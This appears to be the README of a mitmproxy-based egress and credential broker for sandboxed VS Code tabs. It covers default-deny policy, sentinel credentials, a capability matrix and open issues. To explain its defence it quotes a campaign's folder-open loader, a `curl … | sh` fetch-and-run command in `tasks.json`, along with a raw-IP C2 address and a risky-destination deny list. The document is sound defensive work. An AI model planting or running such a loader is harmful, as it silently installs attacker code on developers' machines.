

# seclab-vscode broker

The per-tab egress and credential broker (milestones M2 and the broker side
of M3 in [ARCHITECTURE.md §6](../docs/ARCHITECTURE.md#6-prototype-milestones-each-one-is-a-working-demo)).
It is a [mitmproxy](https://github.com/mitmproxy/mitmproxy/tree/51c1d6b2d8d3367a773411eb7a3eeccec82b3ea7)
12.3.1 container with our addon. Everything a tab sends off the tab goes
through it.
- **Default deny.** Requests are allowed only by policy or by a user decision.
  A request that is denied is held while the user is asked, then resumed, with
  no retry needed.
- **Sentinel credentials.** Credentials are sentinels everywhere except in the
  one header a binding names, on a matching request.
- **No real or derived secret ever reaches the tab.**

## Quick start
Build, unit tests, integration suite, and docs-check:

<!-- ci: skip: duplicate of the broker/AGENTS.md command block, which runs in CI -->
```sh
broker/build.sh
broker/test.sh
```
Real sbx fence and broker chaining (needs sbx on a macOS host):

<!-- ci: skip: needs sbx (nested virtualisation), unavailable on hosted runners -->
```sh
broker/tests/sbx/validate.sh
```
- **Protocol:** [docs/broker-protocol.md](../docs/broker-protocol.md).
- **Policy:** [docs/broker-policy.md](../docs/broker-policy.md). The schema
  is [schema/policy.v1.schema.json](schema/policy.v1.schema.json), with
  examples in [examples/](examples/).
- **Agent notes:** [AGENTS.md](AGENTS.md).

## Design in one screen



**The policy is engine-agnostic.** [`policy.py`](seclab_broker/policy.py)
contains the schema, normalisation, the matcher and the provider backstop, and
imports nothing from mitmproxy. [`core.py`](seclab_broker/core.py) holds state,
approvals and control methods. [`engine_mitmproxy.py`](seclab_broker/engine_mitmproxy.py)
is the only file that knows mitmproxy. Replacing the engine with smokescreen or
Envoy means writing a new adapter that produces a `RequestView` and honours the
same decisions ([EDR](../docs/edr/20261104-broker-engine-mitmproxy.md)).

**The request path:**
1. **Proxy auth.** Requests with missing or wrong credentials get `407` and
   nothing else happens.
2. **Request view.** The broker canonicalises the request and rejects any
   disagreement between Host, SNI, `:authority`, the absolute-form authority
   and the CONNECT target. It also rejects non-canonical paths and
   method-override headers or parameters.
3. **Allow rule, or hold and prompt.** If no allow rule matches, the request is
   held with `flow.intercept()` while `approval.requested` goes out, then
   `resume()`d.
4. **Sentinels.** The broker finds every sentinel occurrence: raw or base64, in
   headers, URL, body or trailers. Each one either matches a binding (the named
   header, on a matching host, path and method, over HTTPS) or is misplaced.
   Misplaced sentinels are blocked and audited.
5. **Provider backstop.** It denies credentialed calls to endpoints that mint
   durable credentials.
6. **JIT.** If the value is missing, the broker waits for `credential.provide`.
7. **Injection.** The broker writes the real value into the named header only.
8. **Upstream guard.** The broker resolves the name itself, refuses non-public
   and broker-local addresses (including IPv4-mapped, 6to4, NAT64 and Teredo
   forms), and pins the vetted IP.

**The response path:**
1. Raw echoes of a real value become the sentinel. Any other encoding (base64,
   hex, URL or JSON) blocks the response.
2. On credentialed flows and bound hosts, tokens the upstream mints are
   re-sentinelised as derived credentials with the parent's bindings, or
   redacted. The rules come from gitleaks plus generic JSON and form token
   fields.
3. Session headers (`Set-Cookie` and others) on credentialed flows are
   stripped.
4. Server WebSocket frames are scanned in the same way, and client frames that
   carry sentinels are dropped.

Decision records:
- **ADRs:** [policy and protocol](../docs/adr/20261104-broker-policy-and-control-protocol.md),
  [no real secret enters a tab](../docs/adr/20261104-no-real-secret-enters-a-tab.md),
  [defeat folder-open loaders](../docs/adr/20261104-defeat-folder-open-loaders.md).
- **EDRs:** [engine](../docs/edr/20261104-broker-engine-mitmproxy.md),
  [sentinels](../docs/edr/20261104-sentinel-format-and-binding.md),
  [CA](../docs/edr/20261104-broker-per-tab-ca.md),
  [DNS](../docs/edr/20261104-internal-network-dns-exfiltration.md),
  [sbx chaining](../docs/edr/20261104-broker-behind-sbx-fence.md),
  [docs from sources and safe fixtures](../docs/edr/20261104-broker-docs-from-sources-and-safe-fixtures.md).
- **Security reviews:** [20261104-broker-m2-m3](../docs/security-reviews/20261104-broker-m2-m3.md),
  [20261104-broker-docs-drift-and-fixtures](../docs/security-reviews/20261104-broker-docs-drift-and-fixtures.md),
  [20261104-broker-folder-open-loaders](../docs/security-reviews/20261104-broker-folder-open-loaders.md).

## Folder-open loaders, beacons and package registries

The DPRK "Contagious Interview" campaign hides `curl https://<x>.vercel.app/… | sh`
in a `runOn: folderOpen` task in `tasks.json`. The task runs **inside the tab
sandbox**. At the broker, the chain fails without the user having to make a
correct decision:
- **Before the user has acted in the tab:** requests to hosting, paste, IP-echo
  or tunnel services (the [risky-destination
  list](../docs/broker-policy.md#risky-destinations-generated)) are denied
  without a prompt.
- **Raw-IP destinations**, such as its `http://<ip>:1224` C2, are always denied
  by default.
- **A 5-second beacon** produces one prompt, not a stream:
  - a denied destination is cooled down for 300 s;
  - new prompts are rate-limited per tab;
  - after repeated denials the user can deny all new destinations for the tab.
- **Prompts show** risk flags and the claimed (unverified) origin. They never
  offer *always allow* for a risky host or a raw IP.

The step-by-step mapping is in the
[ADR](../docs/adr/20261104-defeat-folder-open-loaders.md).

**Package registries:** a malicious npm dependency's install script also runs
only inside the tab. It sees the workspace and sentinels, never a real secret,
the host's files or the host's network position, and its own egress faces the
same controls. Read access to a registry gives a payload nothing more.

## Engine capability matrix

The Tab Manager and supervisor must check `broker.hello.capabilities` and
degrade explicitly; they must never assume a guarantee.

Generated by `broker/tools/docs.py`. The mitmproxy columns come from the
broker's capability descriptor (`core.CAPABILITIES`, the same map
`broker.hello` returns). Notes, the sbx-native column and the per-row tests
come from [`schema/capabilities.v1.json`](schema/capabilities.v1.json). The
check fails if a flag has no row, or if a named test doesn't exist.

<!-- BEGIN GENERATED: capability-matrix (broker/tools/docs.py; do not edit) -->
| Capability | `broker.hello` flag | mitmproxy broker, OCI pod | mitmproxy broker behind sbx fence | sbx native proxy (fallback only, not built) | Tests |
|---|---|---|---|---|---|
| Default deny |  | yes | yes; the sbx fence also denies everything except the broker port | yes | `test_default_deny`, sbx: `default deny` |
| Hold and resume while prompting | `holdAndResume` | yes: `intercept`/`resume` | yes | **no**: sbx denies; the client must retry after `sbx policy allow` | `test_held_request_resumes_without_retry`, `test_hold_times_out_to_deny` |
| Credential bound to host + path + method | `pathMethodBinding` | yes | yes | **no**: `secret set-custom --host` is host-only, so a gist POST to an allowed github.com gets the real token | `test_no_swap_on_wrong_path_or_method`, sbx: `sentinel on wrong path not swapped (blocked)` |
| Injection only into the named header | `placementOnlyInjection` | yes | yes | **no**: not documented | `test_sentinel_to_unbound_allowed_host_not_swapped`, `test_sentinel_in_other_header_of_bound_request` |
| Response scanning for echoed real values | `responseScanning` | yes | yes | **no** | `test_reflection_in_other_encodings_blocked` |
| Minted tokens re-sentinelised; session headers stripped | `mintedTokenResentinelize` | yes | yes | **no** | `test_minted_token_is_resentinelised`, `test_session_cookies_from_credentialed_requests_are_stripped` |
| Provider backstop deny-list | `providerBackstop` | yes | yes | **no** | `test_provider_backstop_beats_binding`, `test_github_backstop` |
| Per-tab CA, private key only in the broker | `perTabCA` | yes | yes | **no**: sbx's own CA | `test_broker_process_custody` |
| HTTP/2 | `http2` | yes | yes: tested through sbx | yes: per sbx docs | `test_http2_end_to_end`, sbx: `HTTP/2 through broker` |
| WebSocket (handshake injection, frame scanning) | `websocket` | yes | yes | yes: pass-through only, per sbx docs | `test_websocket_handshake_injection_and_message_scanning` |
| DNS control |  | the tab has no resolver for external names: Docker's embedded DNS does not forward on `--internal` | sbx's DNS proxy blocks lookups its policy does not allow | sbx DNS proxy | `test_no_dns_exfiltration_via_embedded_resolver`, sbx: `tab cannot resolve broker-side names` |
| Runtime-mutable policy | `runtimeMutablePolicy` | yes: `policy.update`, `allow-tab` | yes | yes: `sbx policy allow` | `test_prompt_allow_tab_persists_for_tab` |
| Per-tab proxy auth | `proxyAuth` | yes | yes: required: the loopback port is reachable by any local process | **no**: n/a | `test_proxy_auth_required_and_never_prompts`, sbx: `wrong proxy password -> 407` |
| Upstream address guard (no private, loopback or broker-local targets) | `upstreamAddressGuard` | yes | yes | **no**: not documented | `test_upstream_address_guard`, `test_netguard_denies` |
| Credential import with first-use binding confirmation | `credentialImport` | yes | yes | **no** | `test_imported_credential_binding_confirmed_on_first_use`, `test_unbound_credential_never_offers_a_wildcard_binding` |
| Maintained risky-destination list (hosting, paste, IP-echo, tunnel); never in the baseline, never `allow-tab` | `riskyDestinationList` | yes | yes | **no** | `test_baseline_and_examples_exclude_risky_destinations`, `test_risky_destination_never_offers_allow_tab`, `test_contagious_interview_loader_is_denied_without_a_prompt` |
| Raw-IP destinations denied by default; never `allow-tab` | `rawIpDeny` | yes | yes | **no**: an IP can be allowed like any host | `test_raw_ip_denied_without_prompt_by_default`, `test_raw_ip_prompt_once_offers_no_allow_tab`, `test_contagious_interview_loader_is_denied_without_a_prompt` |
| Prompt flood control: per-destination coalescing and cooldown, per-tab rate limit, `deny-new-destinations` | `promptFloodControl` | yes | yes | **no** | `test_five_second_beacon_yields_one_prompt`, `test_deny_new_destinations_after_repeated_denials`, `test_prompt_rate_limit` |
| User-action gating: risky and raw-IP requests auto-denied before the first user action; early requests flagged | `userActionGating` | yes | yes | **no** | `test_risky_auto_denied_before_user_action`, `test_contagious_interview_loader_is_denied_without_a_prompt` |
| Origin label in prompts and audit (claimed by the tab, unverified) | `originLabel` | yes | yes | **no** | `test_proxy_auth_origin_label`, `test_contagious_interview_loader_is_denied_without_a_prompt` |
| Isolation domain between broker (real secrets) and tab |  | **weaker**: separate containers, **shared kernel** | **strong**: tab in a microVM, broker in Docker Desktop's VM | sbx host proxy | sbx: `other tab's broker port is not reachable`, `test_brokers_are_isolated_from_each_other` |
<!-- END GENERATED: capability-matrix -->

## Deviations from ARCHITECTURE.md, and why

1. **Control channel bridging.** The control channel is JSON-RPC over the stdio
   of a `seclab-broker control` process started by `docker exec -i`, which
   bridges to a private Unix socket in the broker. It is not the stdio of the
   proxy process itself. *Why:* the supervisor can reconnect after a crash or
   restart without restarting the broker, and more than one client can attach.
   It still holds that nothing listens on the host.
2. **Under sbx, the broker is a container published on `127.0.0.1:P`, not a pod
   sidecar.** This follows the [single-broker ADR](../docs/adr/20261104-single-broker-sbx-fence.md).
   As a consequence, **per-tab proxy auth** is added (128-bit, constant-time,
   delivered over stdio), because any local process can reach the port.
3. **Credentials need both an allow rule and a binding**, as in the Deno
   Sandbox model. A binding does not imply egress.
4. **Placement-only injection, response scanning, minted-token handling,
   session stripping, the provider backstop and credential import** go beyond
   §4.5. They come from the user's decision that no real **or derived** secret
   ever enters a tab ([ADR](../docs/adr/20261104-no-real-secret-enters-a-tab.md)).
5. **Upstream address guard.** It is not in §4.4. It came from a security
   review: the broker never connects to non-public or broker-local addresses,
   even for an allowed hostname.
6. **The baseline** is the Open VSX gallery only (read-only). Package
   registries are opt-in per tab.
7. **Egress prompts are per origin** (`scheme://host:port`), so a page load
   doesn't produce dozens of prompts. Credential-binding prompts are per exact
   request shape.

## Open issues
- **Connection reuse.** Pinning the vetted IP into `server.address` disables
  mitmproxy's upstream connection reuse across requests on one client
  connection. This is correct but slower (a TLS handshake per request).
- **Body buffering.** The broker buffers whole bodies (no streaming), up to
  `SECLAB_BODY_SIZE_LIMIT`. Large git packs cost memory.
- **Cookie-bound credentials.** When the inject header is `Cookie`, the broker
  overwrites the whole header with that one cookie.
- **Proxy-auth rotation** does not tear down established WebSockets.
- **CA constraints.** The CA is not name-constrained. A pinned-certificate
  client must be denied or given a non-MITM path.
- **Gateway detection.** The address guard treats the first host address of
  each directly connected subnet as a Docker gateway. Supervisors must not use
  custom `--gateway` values.
- **Intra-tab replay.** Any process in the tab that knows a sentinel can use it
  through its binding. That is the accepted per-tab blast radius; see
  ARCHITECTURE §8 for per-extension attribution.
- **Unparsed Rails `_method` in bodies.** On github.com web endpoints, `_method`
  in a form body is not parsed. Bindings should name git/API paths only.
- **Endpoints outside the backstop.** Out of scope: a tab with repo write
  access pushing a workflow that exfiltrates repository secrets via Actions.
  This needs server-side controls (token scopes).
